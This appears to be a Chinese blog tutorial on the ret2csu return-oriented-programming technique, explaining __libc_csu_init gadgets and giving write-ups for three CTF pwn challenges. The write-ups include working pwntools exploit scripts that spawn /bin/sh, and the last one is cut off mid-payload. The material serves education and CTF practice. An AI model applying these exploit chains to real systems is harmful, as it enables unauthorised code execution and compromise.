> 关于这个ret2csu，与其说它是一种题型，倒不如说这是一种方法（用于控制寄存器）

## 什么是ret2csu？

这个其实就是在程序中一般都会有一段万能的控制参数的gadgets，里面可以控制rbx,rbp,r12,r13,r14,r15以及rdx,rsi,edi的值，并且还可以call我们指定的地址。然后劫持程序执行流的时候，劫持到这个__libc_csu_init函数去执行（这个函数是用来初始化libc的，因此只要是动态链接的程序就都会有这个函数（至少我还没有遇见过特殊情况）），**从而达到控制参数的目的**。

## 下面是__libc_csu_init的汇编代码。

```assembly
text:0000000000400540                 public __libc_csu_init
.text:0000000000400540 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:0000000000400540 ; __unwind {
.text:0000000000400540                 push    r15
.text:0000000000400542                 push    r14
.text:0000000000400544                 mov     r15d, edi
.text:0000000000400547                 push    r13
.text:0000000000400549                 push    r12
.text:000000000040054B                 lea     r12, __frame_dummy_init_array_entry
.text:0000000000400552                 push    rbp
.text:0000000000400553                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:000000000040055A                 push    rbx
.text:000000000040055B                 mov     r14, rsi
.text:000000000040055E                 mov     r13, rdx
.text:0000000000400561                 sub     rbp, r12
.text:0000000000400564                 sub     rsp, 8
.text:0000000000400568                 sar     rbp, 3
.text:000000000040056C                 call    _init_proc
.text:0000000000400571                 test    rbp, rbp
.text:0000000000400574                 jz      short loc_400596
.text:0000000000400576                 xor     ebx, ebx
.text:0000000000400578                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400580
.text:0000000000400580 loc_400580:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400580                 mov     rdx, r13
.text:0000000000400583                 mov     rsi, r14
.text:0000000000400586                 mov     edi, r15d
.text:0000000000400589                 call    qword ptr [r12+rbx*8]
.text:000000000040058D                 add     rbx, 1
.text:0000000000400591                 cmp     rbx, rbp
.text:0000000000400594                 jnz     short loc_400580
.text:0000000000400596
.text:0000000000400596 loc_400596:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400596                 add     rsp, 8
.text:000000000040059A                 pop     rbx
.text:000000000040059B                 pop     rbp
.text:000000000040059C                 pop     r12
.text:000000000040059E                 pop     r13
.text:00000000004005A0                 pop     r14
.text:00000000004005A2                 pop     r15
.text:00000000004005A4                 retn
.text:00000000004005A4 ; } // starts at 400540
.text:00000000004005A4 __libc_csu_init endp
```
## 如何利用csu这部分代码？




我们利用的其实就是这两部分的代码，我们给这两段起个名字，上面的部分叫gadget2，下面的部分叫gadget1（因为我们先执行下面的部分，因此就叫下面的gadget1吧）

假设我们现在通过溢出，已经可以控制程序的执行流了，我们此时就把返回地址填写成gadget1的地址0x40059A（因为我们并不需要add rsp,8这个指令，因此直接从0x40059A开始即可）

现在就会把栈中的前6个数据分别弹给rbx,rbp,r12,r13,r14,r15这六个寄存器。

我们通常会把rbx的值设置成0，而rbp设置成1.这样的目的是在执行call    qword ptr [r12+rbx*8]这个指令的时候，我们仅仅把r12的值给设置成指向我们想call地址的地址即可，从而不用管rbx。

又因为这三个指令add     rbx,；cmp     rbx, rbp；jnz     short loc_400580，jnz是不相等时跳转，我们通常并不想跳转到0x400580这个地方，因为此刻执行这三个指令的时候，我们就是从0x400580这个地址过来的。因此rbx加一之后，我们要让它和rbp相等，因此rbp就要提前被设置成1.

然后r12要存放的就是指向（我们要跳转到那个地址）的地址。这里有个很重要的小技巧，如果你不想使用这个call，或者说你想call一个函数，但是你拿不到它的got地址，因此没法使用这个call，那就去call一个空函数（_term_proc函数）（并且要注意的是，r12的地址填写的并不是_term_proc的地址，而是指向这个函数的地址）。

然后r13,r14,r15这三个值分别对应了rdx,rsi,edi。这里要注意的是，r15最后传给的是edi,最后rdi的高四字节都是00，而低四字节才是r15里的内容。（也就是说如果想用ret2csu去把rdi里存放成一个地址是不可行的）

接着到了gadget1的结尾ret这里，然后我们紧接着写入gadget2的地址0x400580。



此时开始执行这部分代码，这没什么好说的了，就是把r13,r14,r15的值放入rdx,rsi,edi三个寄存器里面。

然后由于我们前面的rbx是0，加一之后等于了rbp，因此jnz不跳转。那就继续向下执行，如果我们上面call了一个空函数的话，那我们就利用下面的ret。由于继续向下执行，因此又来到了gadget1这里。





如果不需要再一次控制参数的话，那我们此时把栈中的数据填充56（7*8你懂得）个垃圾数据即可。

如果我们还需要继续控制参数的话，那就此时不填充垃圾数据，继续去控制参数，总之不管干啥呢，这里都要凑齐56字节的数据，以便我们执行最后的ret，最后ret去执行我们想要执行的函数即可。

### 错位获取pop rsi;pop rdi

如果只是要单纯控制pop rsi和pop rdi寄存器的话，可以不用ret2csu，直接搜的。因为pop r14和pop r15（这两个gadget存在于__libc_csu_init)对应的机器码分别为




（汇编如何看对应的机器码，我在shellcode那一篇博客中已经讲过了）可以发现pop rsi和pop rdi分别存在于pop r14和pop r15的机器码中，因此我们可以利用错位来得到他们。用Ropgadget直接搜pop rsi或是搜它的机器码5e，就会出来错位得到的地址。(方法如下)不过没有办法通过错位来得到pop rdx。


## ret2csu相关题目

下面是我做过三道关于ret2csu的题目，附上WP

### VNCTF2022公开赛clear_got

做这道题，必须先掌握下面这三个点。

1、首先是call指令后面的这个地址（如果是函数名就不说了），就比如现在ret2csu中，准备执行这个



我们让rbx为0，此时call r12，那怎么才能call成功呢，原本看到师傅们说是要装got地址，后来发现装一个地址（这个地址是被另一个地址所指向的），然后把r12填写成另一个地址，也可以call成功，再回想一下为什么要装got地址，而不是plt地址，原因也是出现在了got地址仅仅会跳转一次，也就是说填一个got地址，也是会从这个地址去跳到got地址所指向的地址（也就是真实地址（因为延迟绑定的原因，如果不清楚的话，这里请自行百度一下延迟绑定机制）），因此结论就出来了，要想去call去跳转到一个地址A，那就必须用一个指向地址A的地址B放到call后面。

2、如果我们仅仅是想利用ret2csu去控制参数，而并不想去用call执行，或者说是你想用call执行跳转，但是你找不到去指向你想跳转的那个地址，因此我们用最后的ret跳转（你想跳转到哪里，就填哪的地址即可）。那怎么把call的那一步忽略呢？我们可以call一个空函数（不需要参数，执行之后也不会对程序本身造成任何影响的函数），这个函数就是_term_proc（注意，这里call的是指向_term_proc的地址，而非term_proc的地址




3、怎么去修改rax的值？

这里提到了一种很巧妙的方法。我们先来看一下read函数和write函数的返回值。




图片出自(25条消息) read的返回值卖保险的码农的博客-CSDN博客read函数返回值

read和write函数 - 故事， - 博客园 (cnblogs.com)

我们可以看出来read函数和write函数最后的返回值都是实际读到和写入的字节数（如果执行成功的话），而返回值最后就会放到rax里面。也就是说可以利用read和write去控制我们想要的rax。（为啥要控制rax？淦，你只要知道这个控制rax的方法就行了，需要的时候就能用到，就比如这道题）

掌握上述三点之后，就可以来做题了。






发现主函数很简单，buf也是存在溢出，意味着我们可以控制返回地址。




没有发现后门函数和参数，但是发现有两个系统调用，这里很可疑，留意一下。

这道题的困难点其实在这里



Memset清空了0x601008往下面的0x38个字节的内容，我们看一下0x601008是什么



发现居然是got表，got表被清空了意味着什么，1、我们之前已经完成延迟绑定的函数的真实地址已经不在got表了。2、最开始（执行延迟绑定之前）got表原本跳往extern的地址，变成了0。

也就是说执行了这个memset之后，我们在got表中的所有函数都没法再被使用了。

但是我们能用的有什么？只剩下了系统调用，可是想用系统调用执行execve(‘/bin/sh’,0,0)，我们需要做到三件事，第一是控制rax，第二是控制rdi,rsi,rdx这三个寄存器，第三是将/bin/sh写入到bss段。

控制rax？，有没有想到最开始提到的那个方法，利用read或者write去修改rax。由于我们还要写入/bin/sh，因此我们这里采用系统调用read，可是read的系统调用号是0，而程序中出现的两个系统调用没有read，怎么办？其实不用管的，因为main函数的返回值是0，在main函数的ret之前，就把rax的值给设成0了，因此我们溢出之后，始终rax都是0（在执行系统调用之前）。

既然现在可以系统调用read，那只需要控制参数，将/bin/sh写入bss段即可，怎么控制参数？用Ropgadget搜索之后发现，没有能控制rsi和rdx的寄存器，因此只能采用ret2csu的方法。

最后有两点要注意

第一，  我们系统调用了一次输入，在这次输入里，必须填充到59个字节

第二，  由于第一次输入最多只能输入0x100个字节，因此我们是没法随心所欲构造gadgets的，要考虑长度限制，因为光垃圾数据都填充了0x68个字节。因此需要考虑两点，第一点，我们两次系统调用（第一次调用read第二次调用system），第二次如果再用ret去返回到系统调用，字节是超了的，因此我们第一次ret进行一下系统调用，然后再ret2csu，这一次在call的时候就要想办法去系统调用，可是我们在这个程序里是找不到指向这个地址的地址。


因此我们这里要用一个巧法，在第一次输入的时候，把syscall的这个地址也给写到bss段，这样bss段的地址就指向了syscall。第二点，还是考虑到字节数的问题，为了构造的payload字节更少，我们在ret2csu第二次执行下面的代码的时候，就不填充成垃圾数据，直接填写成第二次系统调用的参数（如果不这样的话，payload太长了，没法全部输入进去）。




Exp如下：
```python
#coding:utf-8
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./a')
e=ELF('./a')
pop_rdi_addr=0x4007f3
print('pid'+str(proc.pidof(p)))
offset=0x60
syscall_addr=0x40077E
write_addr=0x400773
csu_gadget1=0x4007EA
csu_gadget2=0x4007D0
term_proc=0x600e50
bss_addr=0x601060
payload=(offset+8)*'a'
payload+=p64(csu_gadget1)
payload+=p64(0) #rbx
payload+=p64(1)#rbp
payload+=p64(term_proc)#r12 空函数#第一次ret2csu的目的是传read函数参数，并且在最后的ret去执行系统调用，第一次不需要用到call，因此call一个空函数
payload+=p64(59)#r13 rdx #执行一次syscall之后，rax就变成了0x3b
payload+=p64(bss_addr)#r14  #rsi  #将/bin/sh写入bss段
payload+=p64(0)#r15  #rdi
payload+=p64(csu_gadget2)
payload+='a'*8#下面的48个数据不用垃圾填充，直接进行下一轮涉及参数，这8个垃圾数据填充的是add rsp,8
payload+=p64(0)
payload+=p64(1)
payload+=p64(bss_addr+0x8)#此时用call来执行输入到bss段里的syscall
payload+=p64(0)
payload+=p64(0)
payload+=p64(bss_addr)
payload+=p64(syscall_addr)
payload+=p64(csu_gadget2)
p.sendafter('Welcome to VNCTF! This is a easy competition.///\n',payload)
payload='/bin/sh\x00'+p64(syscall_addr)+'\x00'.ljust(59,'\x00')#这里一定要凑齐59，使得read函数的返回值，也就是让rax变成59
p.sendline(payload)
p.interactive()
```

### BUUCTF上的ciscn_2019_es_7






发现程序流程就是两个系统调用，一个是read，一个是write。




同时发现了这里改变了rax的值，改成了0x3b，也就系统调用execve函数。

发现只能控制rdi的值，而不能控制rsi,rdx的值




那思路就出来了。

我们利用ret2csu控制rsi和rdx参数，最后执行Mov rax,0x3b；syscall即可。

那只有一个问题了，也是这道题的难点，怎么把rdi存入参数的地址。

我最开始想的是执行一个ret2csu去把参数给写进bss段，可是我们由于控制不了rax的值，就没办法系统调用号设置成0,。

那bss段写不了，只能写入程序给我们指定的地方了，可是这就意味着我们需要泄露栈中地址。以前只遇见过程序自己泄露一个栈的地址的，这道题也算是长见识了，见了一种新方法。

系统调用write的时候，



第三个参数是0x30，可是我们发现



Buf距离栈底仅仅有十个字节。因此write是可以打印出来栈中内容的。并且我们运行程序也可以发现是有端倪的。




不仅仅打印出来了我们输入的东西，还打印出来了一些乱码。

我们先简单写一个脚本




这个脚本就是发送一个1，但是可以看见我们接收的内容。




此时可以看见我们已经泄露出来了栈的内容。

我们用gdb看一下




泄露的内容是红线的部分（当然由于只能泄露0x30个字节，我红线圈多了，但是我想强调的是栈地址泄露，泄露的是内容，而非栈的地址）

不过我们发现了第一个和第三个泄露的栈中的内容是指向了栈的地址，这样我们就可以用泄露的栈的内容配合偏移，来获取栈的地址了。

经过调试发现，vul函数的返回地址就是此时栈顶的，我们是要劫持程序的执行流，因此第一个地址肯定是没法泄露了，我们来泄露第三个栈的内容。然后把返回地址填写成vul函数的首地址，让程序再执行一次（去进行ret2csu）

拿到栈中第三个内容后，看一下它距离我们输入的内容的首地址偏移是多少。



F088是泄露的地址，df70是输入存储的首地址（我打算把/bin/sh输入到这个地方）

然后就没什么了，偏移拿到之后，就可以写exp了。
```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',28000)
e=ELF('./a')
csu_gadget1=0x40059A
modify_rax=0x4004E2
csu_gadget2=0x400580
term_proc=0x600e50 #这个地址并不是term_proc的地址，而是指向term_proc的地址
bss_addr=0x601030
pop_rdi_addr=0x4005a3
syscall_addr=0x400517
read_syscall=0x4004ED
offset=16
payload='/bin/sh\x00'.ljust(16,'\x00')+p64(read_syscall)
p.send(payload)
p.recvuntil('\x05\x40\x00\x00\x00\x00\x00') #这个用来筛选一下我们要找的数据
leak_addr=u64(p.recv(8))
print(hex(leak_addr))
bin_sh_addr=leak_addr-280
print(hex(bin_sh_addr))
payload='/bin/sh\x00'.ljust(16,'\x00')+p64(csu_gadget1)
payload+=p64(0)+p64(1)
payload+=p64(term_proc)  #此时call一个空函数，我们用ret来劫持执行流
payload+=p64(0)+p64(0)+p64(0)#r13 r14 r15
payload+=p64(csu_gadget2)
payload+='a'*56
payload+=p64(modify_rax)
payload+=p64(pop_rdi_addr)+p64(bin_sh_addr) #把参数放到rdi里面
payload+=p64(syscall_addr)
p.send(payload)
p.interactive()
```

### BUUCTF上的gyctf_2020_borrowstack

这道题，我已经在栈迁移的那篇博客中发过了，这篇里面我就展示一下WP吧，具体细节可以看一下栈迁移的那篇博客。
```python 
#coding:utf-8
from pwn import *
p=process('./a')
context(arch='amd64',os='linux',log_level='debug')
e=ELF('./a')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
read_plt_addr=e.got['read']#why got here 
#call函数为跳转到某地址内所保存的地址，应该使用got表中的地址
pop_rdi_addr=0x400703
level_addr=0x400699
bss_addr=0x601080
ret_csu_addr=0x4006FA
rsi_addr=0x601118
payload1=0x60*'a'+p64(bss_addr+0x40)+p64(level_addr)#这里多加0x40的目的就是为了执行puts的时候，不影响之前的got表中的数据
p.sendafter('u want\n',payload1)
payload2='a'*0x40+p64(0)+p64(pop_rdi_addr)+p64(puts_got_addr)+p64(puts_plt_addr)
payload2+=p64(ret_csu_addr)+p64(0)+p64(0)+p64(read_plt_addr)+p64(0x100)
